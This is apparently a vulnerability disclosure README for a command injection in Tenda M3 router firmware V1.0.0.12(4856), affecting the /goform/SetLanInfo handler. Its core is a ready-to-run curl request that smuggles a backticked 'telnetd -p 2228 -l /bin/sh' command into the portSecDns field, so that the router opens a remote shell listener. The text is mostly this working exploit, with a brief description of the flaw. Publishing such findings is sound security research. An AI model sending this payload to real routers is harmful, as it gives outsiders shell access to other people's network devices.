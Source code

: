 # Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /goform/SetLanInfo route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)

![2](./2.jpg)

When we send packets, the router will be shell

```
curl -i -X POST http://192.168.10.1/goform/SetLanInfo -d portSecDns='`telnetd -p 2228 -l /bin/sh`' -d portIp='192.168.10.1'  --cookie "user=admin"
```





![poc](./poc.png)

